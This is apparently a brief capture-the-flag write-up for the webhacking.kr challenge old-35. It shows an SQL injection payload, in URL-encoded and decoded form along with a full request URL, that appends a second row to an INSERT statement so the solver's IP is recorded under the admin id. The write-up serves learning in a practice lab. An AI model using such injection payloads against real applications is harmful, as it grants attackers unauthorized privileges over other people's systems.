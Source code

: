 ```yaml
---
layout: default
title: old-35
---
```


# Webhacking old-35 Solution

another sql injection.
here this is the payload we insert: 
id=`1` phone=`1),(%27admin%27,%27{your-ip}%27,2`

which is equivalent to `1),('admin','{your-ip}', 2`.

I checked before and learn how the insert command is looks like, the format is like this: `INSERT Values(id, IP, phone)`

then, when he sees your IP address has admin id, it solves the challenge.

```
https://webhacking.kr/challenge/web-17/index.php?id=1&phone=1),(%27admin%27,%27185.177.125.211%27,2
```
